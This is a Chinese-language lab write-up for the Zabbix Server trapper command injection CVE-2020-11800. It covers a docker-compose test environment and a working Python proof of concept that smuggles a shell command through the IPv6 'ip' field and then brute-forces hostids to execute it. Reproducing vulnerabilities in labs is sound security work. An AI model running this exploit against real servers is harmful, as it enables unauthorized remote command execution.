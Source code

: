 # Zabbix Server trapper命令注入漏洞 CVE-2020-11800

## 漏洞描述

Zabbix 是由Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。在[CVE-2017-2824](https://github.com/vulhub/vulhub/blob/master/zabbix/CVE-2017-2824)中，其Server端 trapper command 功能存在一处代码执行漏洞，而修复补丁并不完善，导致可以利用IPv6进行绕过，注入任意命令。

参考链接：

- https://xz.aliyun.com/t/8991

## 环境搭建

Vulhub执行如下命令启动一个完整的Zabbix环境，包含Web端、Server端、1个Agent和Mysql数据库：

```
docker-compose up -d
```

命令执行后，执行`docker-compose ps`查看容器是否全部成功启动，如果没有，可以尝试重新执行`docker-compose up -d`。

使用账号密码`admin/zabbix`登录后台。利用该漏洞，需要你服务端开启了自动注册功能，开启方法请参考[CVE-2017-2824](https://github.com/vulhub/vulhub/blob/master/zabbix/CVE-2017-2824)。

## 漏洞复现

修改[CVE-2017-2824](https://github.com/vulhub/vulhub/blob/master/zabbix/CVE-2017-2824)的POC中的IP字段，构造新的POC：

```python
import sys
import socket
import json
import sys


def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data


target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":"ffff:::;touch /tmp/awesome_poc_2"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)
```

当查看到如下结果时，则说明命令执行成功：

![image-20220303153034616](images/202203031530752.png)

进入server容器，可见`/tmp/awesome_poc_2`已成功创建：

![image-20220303153108613](images/202203031531690.png)

